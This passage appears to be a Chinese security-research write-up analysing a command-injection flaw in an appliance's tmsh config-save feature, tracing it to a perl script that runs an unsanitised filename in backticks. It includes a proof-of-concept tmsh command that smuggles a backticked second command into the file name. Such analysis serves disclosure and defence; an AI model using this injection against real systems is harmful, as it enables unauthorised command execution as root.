 需要根据响应包提示的错误修正请求包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAxOmYlBuOMXTeYLrEqymOF9qNKLKwKJy60LibXtWJAj5QdzFjUkD2pYD3m76Gfxv0SsCjNzVaThArw/640?wx_fmt=png&from=appmsg "null")  
  
  
为了快速分析，借助 pspy  
 进行进程监控，发现 icrd_child  
 将会启动 scf_crypt  
 这个 perl  
 脚本，并且文件名参数 file  
 直接传入了脚本：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAxOmYlBuOMXTeYLrEqymOF9HDJLjYGddJlDBw6VpEBT28RqDmsQBsY3lXUU4haH9FBNL8BNmqJwzw/640?wx_fmt=png&from=appmsg "null")  
  
  
上述实现过程位于 libtmsh.so  
 中的 ConfigFileCmd::execute_update  
 函数，内部将利用 do_cryption  
 进行加密处理，进而调用第三方脚本 scf_crypt  
 完成操作：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAxOmYlBuOMXTeYLrEqymOF9SldGwpy7vkSycRwrNFgsVfumNeXlvIA34whhKcOXFZIcHWHlCozG4Q/640?wx_fmt=png&from=appmsg "null")  
  
  
查看 scf_crypt  
 脚本，传入的 filename  
 参数将直接拼接到 cmd  
 中，然后通过反引号执行系统命令，存在命令注入漏洞：  
```
...my $action_type = $ARGV[0];my $filename = $ARGV[1];my $passphrase;my $output_file;my $cmd;my $count;...if  ($action_type eq "encrypt") {    my $tempFile=File::Temp->new();    my $temp=$tempFile->filename;    if ($count == 2) {    $passphrase =~ s/`/\\`/g;        open(FH,'>',$temp );        print FH $passphrase;        close(FH);        chmod 600, $temp;        $cmd = "gpg --homedir /root/.gnupg --passphrase-file $temp --batch -a --symmetric --cipher-algo AES  $filename";    }    else {        open(FH,'>',$temp );        print FH $passphrase;        close(FH);        chmod 600, $temp;        $cmd = "gpg --homedir /root/.gnupg --passphrase-file $temp --batch -a --symmetric --cipher-algo AES  $filename";    }    `$cmd &> /dev/null`;...
```  
  
可以利用反引号实现命令注入：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAxOmYlBuOMXTeYLrEqymOF9zOX1kdDVI3Ae4qRyZbiaWl1XE7BsmtAIxK5Sl5VZxkH3CCbWJ84VcBw/640?wx_fmt=png&from=appmsg "null")  
  
  
与 CVE-2025-20029  
 类似，通过 tmsh cli  
 也可以触发漏洞：  
```
[root@localhost:Active:Standalone] tmp # tmshroot@(localhost)(cfg-sync Standalone)(Active)(/Common)(tmos)# save sys config file aaa`id>&2` passphrase 123
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9UsWg6ibZLAxOmYlBuOMXTeYLrEqymOF9qdCpAzSicOicvjibZGmesn0JuORtDHK0J35RI1oicPonr9SyVAKKXt71Lw/640?wx_fmt=png&from=appmsg "null")  
  
  
  
   
  
由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用本人负责，公众号及文章作者不为此承担任何责任。  
  
  
